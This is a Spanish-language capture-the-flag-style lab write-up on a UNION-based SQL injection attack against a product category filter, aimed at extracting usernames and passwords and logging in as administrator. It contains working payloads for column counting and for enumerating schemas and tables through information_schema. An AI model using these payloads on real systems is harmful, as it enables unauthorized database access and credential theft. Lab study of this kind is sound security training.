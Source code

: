 
**Ejemplo**

Gifts' order by 3-- -


' union SELECT null,'G0Puak',null -- -












# Laboratorio: ataque UNION de inyección SQL, recuperación de datos de otras tablas

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de producto. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que puede utilizar un ataque UNION para recuperar datos de otras tablas. Para construir un ataque de este tipo, es necesario combinar algunas de las técnicas que aprendiste en laboratorios anteriores.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password.

Para resolver el laboratorio, realice un ataque UNION de inyección SQL que recupere todos los nombres de usuario y contraseñas, y use la información para iniciar sesión como administrator usuario.

Los pasos clave son:

- Verificar cuántas columnas tiene la consulta original y cuáles aceptan texto, tal como se vio en los labs anteriores.
- Una vez identificado eso, se construye un payload que sustituye la consulta original por una que seleccione directamente los valores de las columnas ‘username‘ y ‘password‘ desde la tabla ‘users‘.
- Al inyectar correctamente la consulta, la respuesta mostrará las credenciales de todos los usuarios, incluida la del administrador.


**Ejemplo**

' order by 3-- -


### nombre de los esquemas 

' union SELECT null,schema_name FROM information_schema.schemata -- -

**Resultado**

-information_schema
-public
-pg_catalog

### nombres de las tablas 

' union SELECT null,table_name FROM information_schema.tables -- -
